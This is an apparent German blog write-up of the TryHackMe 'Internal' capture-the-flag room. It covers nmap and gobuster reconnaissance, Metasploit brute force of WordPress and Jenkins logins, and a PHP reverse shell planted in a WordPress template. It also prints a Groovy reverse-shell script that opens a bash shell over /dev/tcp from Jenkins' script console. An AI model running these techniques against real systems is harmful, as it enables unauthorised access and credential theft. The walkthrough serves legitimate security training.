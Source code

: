 ```yaml
---
title: TryHackMe Internal writeup
description: Ein writeup zu dem TryHackMe Raum Internal. Es kommen verschiedene Techniken und Tools, wie nmap, GoBuster und Metasploit zum Einsatz.
tags:
 - security
 - linux
 - ctf
---
```


Nachdem ich gerade erst einen writeup für TryHackMe rootme geschrieben habe, gibt es jetzt einen weiteren für [Internal](https://tryhackme.com/room/internal).
Internal ist als Black Box Penetration Test angelegt. Das heißt über die Infrastruktur, welche man auf Schwachstellen untersuchen muss, gibt es keine weiteren Informationen. Lediglich die IP-Adresse des Ziels ist bekannt und man weiß, dass zwei Flags zu finden sind: eine User.txt mit normalen Privilegien und eine Root.txt, für welche man root Privilegien benötigt.

## Vorwort

Vorweg der übliche Disclaimer: ihr könnt die Tools, welche hier vorgestellt werden für euer eigenes Netzwerk verwenden oder im Rahmen eines Penetration Tests einsetzen, wenn ihr dafür beauftragt wurdet. Jedoch dürft ihr diese Tools niemals gegen fremde Systeme ohne explizite Erlaubnis einsetzen.

## Aufklärung

Als allererstes modifizieren wir unsere Hostfile, sodass internal.thm auf die IP-Adresse des Ziels zeigt.

Dann starten wir mit der Aufklärung und der ersten Informationsgewinnung. Hierfür nutzen wir nmap, um Informationen über offene Ports, Dienste und das Betriebssystem zu erlangen. 

Wir nutzen folgenden Befehl, mit welchem der Output auch in eine Textdatei ausgegeben wird.

`nmap -A $ipaddress -o nmap.txt`

{:refdef: style="text-align: center;"}
![Ergebnis des nmap Scans]({{ site.baseurl }}/images/nmap_internal.png)
{: refdef}

Folgende Ergebnisse lieferte der Scan

* Port 22 für SSH ist offen
* Port 80 ebenfalls offen. Dahinter läuft ein Apache Webserver in der Version 2.4.29
* Das Betriebssystem ist wahrscheinlich ein Ubuntu Linux

## Untersuchung des Webservers

Rufen wir http://internal.thm mit unserem Webbrowser auf erscheint die Apache2 Ubuntu Default Page. Ein Scan mit Gobuster offenbart, dass unter /blog ein WordPress Blog zu finden ist.

 `gobuster -u http://$ip -w /opt/wordlists/directory-list-2.3-small.txt`

Wie in vergangenen Walkthroughs wurde hier die directory-list-2.3-small.txt von
[SecLists](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-small.txt) verwendet.

Weitere Ergebnisse des Scans sind unter anderem eine Instanz von phpmyadmin unter /phpmyadmin. Wir konzentrieren uns hier auf die Untersuchung von WordPress und schauen, ob wir uns hierüber einen Zugang zum Server verschaffen können. Über die URL `http://internal.thm/blog/?author=1` finden wir heraus, dass es einen WordPress User mit dem Namen admin gibt. 

{:refdef: style="text-align: center;"}
![WordPress zeigt den Namne des Users admin]({{ site.baseurl }}/images/wordpress_user.png)
{: refdef}

Es gibt jetzt sicherlich mehrere Methoden, wie man an dieser Stelle fortfahren könnte. Ich habe mich für Brute Force mit dem Metasploit Modul `auxiliary/scanner/http/wordpress_login_enum` entschieden. In diesem Fall müssen folgende Optionen gesetzt werden:

* set rhosts internal.thm
* set targeturi /blog
* set stop_on_success true
* set username admin
* set pass_file /opt/wordlists/rockyou.txt (je nachdem welchen Pfad und Wordlist ihr verwendet)

{:refdef: style="text-align: center;"}
![Codeausschnitt der php-reverse-shell]({{ site.baseurl }}/images/wppw_internal.png)
{: refdef}

Mit den Zugangsdaten kann man sich nun unter `http://internal.thm/blog/wp-login.php` einloggen. Unter Appearance / Theme Editor finden wir das 404 Template (404.php). Hier können wir eine [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) platzieren und müssen anschließend nur einen 404 Error produzieren, um einen Zugang zum Server zu erhalten. In dem Code der reverse-shell müssen wir nur noch die IP und den Port anpassen.

{:refdef: style="text-align: center;"}
![Codeausschnitt der php-reverse-shell]({{ site.baseurl }}/images/phpshell_internal.png)
{: refdef}

Mit Netcat warten wir auf die Verbindung auf dem zuvor festgelegten Port: `nc -lvnp 4444`. Anschließend noch mit einer auf dem Server nicht existenten URL einen Error 404 hervorrufen, zum Beispiel mit: `http://internal.thm/blog/index.php/2020/08/03/give-access-pls/`

{:refdef: style="text-align: center;"}
![Screenshot der Shell]({{ site.baseurl }}/images/wordpress_shell.png)
{: refdef}

Nun haben wir eine Shell und finden unter /opt/ die Datei wp-save.txt. Darin finden wir Logindaten, welche wir für eine SSH-Verbindung nutzen können.

{:refdef: style="text-align: center;"}
![Textdatei mit Logindaten via SSH.]({{ site.baseurl }}/images/sshlogin_internal.png)
{: refdef}

Loggen wir uns per SSH ein, finden wir im home-Verzeichnis des Users auch direkt die Flag user.txt

{:refdef: style="text-align: center;"}
![Screenshot der Textdatei mit der Userflag user.txt.]({{ site.baseurl }}/images/userflag_internal.png)
{: refdef}

Neben der Flag finden wir eine jenkins.txt, in welcher ein Hinweis auf eine lokale Jenkins-Instanz unter 172.17.0.2:8080 steht, welche als Docker-Container läuft. Mit `ssh -L 5555:localhost:8080 aubreanna@internal.thm` leiten wir den Port 5555 auf unserer lokalen Maschine an den Port 8080 auf der remote Maschine weiter und können so Jenkins im Browser via http://localhost:5555 erreichen. Dort sehen wir dann das Loginformular von Jenkins.

{:refdef: style="text-align: center;"}
![Loginformular von Jenkins.]({{ site.baseurl }}/images/jenkins_internal.png)
{: refdef}

Mit Metasploit finden wir die Logindaten für den default User admin heraus. Dazu wird das Modul `auxiliary/scanner/http/jenkins_login` mit folgenden Optionen verwendet:

* set rhosts localhost
* set rport 5555
* set username admin
* set pass_file /opt/wordlists/password-top10000.txt (hier wieder den Pfad der Passwortdatei eurer Wahl einfügen)
* set stop_on_success true

{:refdef: style="text-align: center;"}
![Loginformular von Jenkins.]({{ site.baseurl }}/images/jenkinslogin_internal.png)
{: refdef}

Wenn wir uns mit diesen Logindaten in Jenkins eingeloggt haben, können wir unter http://localhost:5555/script die Skript-Konsole von Jenkins aufrufen. Hier ist es uns möglich ein Skript für eine reverse-shell auszuführen. Anzupassen sind die IP und der Port hinter /tcp/ .

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.10.10/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

```

Nun nutzen wir wieder Netcat mit `nc -lvnp 1234` und führen das Jenkins Skript aus. Wir erhalten eine Shell im Jenkins Container, wo wir unter /opt/ eine note.txt mit root-credentials finden.

{:refdef: style="text-align: center;"}
![Root Logindaten aus der note.txt.]({{ site.baseurl }}/images/rootcreds_internal.png)
{: refdef}

Mit den erbeuteten Zugangsdaten loggen wir uns per SSH ein und finden direkt die root.txt mit der Flag.

{:refdef: style="text-align: center;"}
![Root Logindaten aus der note.txt.]({{ site.baseurl }}/images/rootflag_internal.png)
{: refdef}

Wenn ihr andere Lösungsansätze gefunden habt, oder Fragen zu dieser Capture the Flag Challenge habt, meldet euch gerne bei [Twitter](https://twitter.com/julian0x1).
